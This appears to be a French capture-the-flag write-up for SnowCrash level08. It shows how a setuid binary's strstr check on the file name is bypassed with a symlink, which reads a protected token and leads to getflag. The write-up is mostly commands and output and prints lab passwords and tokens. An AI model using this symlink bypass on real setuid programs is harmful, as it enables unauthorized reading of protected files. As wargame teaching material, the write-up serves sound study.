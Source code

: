 # LEVEL 08

**LOGIN: level08**

**PASSWORD: level08**

 ----
 
 ```
 ls -l ; echo ; file level08
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```
```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ echo toto > test
level08@SnowCrash:~$ ./level08 test
toto

```

le binaire `level08` permet de lire le contenu d'un fichier, mais il y'a une sécurité protegeant le fichier `token`

```
ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                              = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)          = 27
exit(1 <unfinished ...>
```

Apparement un simple `strstr` sur le nom du fichier. 

```
level08@SnowCrash:~$ ln -s token exploit
level08@SnowCrash:~$ ./level08 exploit
quif5eloekouj29ke0vouxean
```
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

**TOKEN: quif5eloekouj29ke0vouxean**



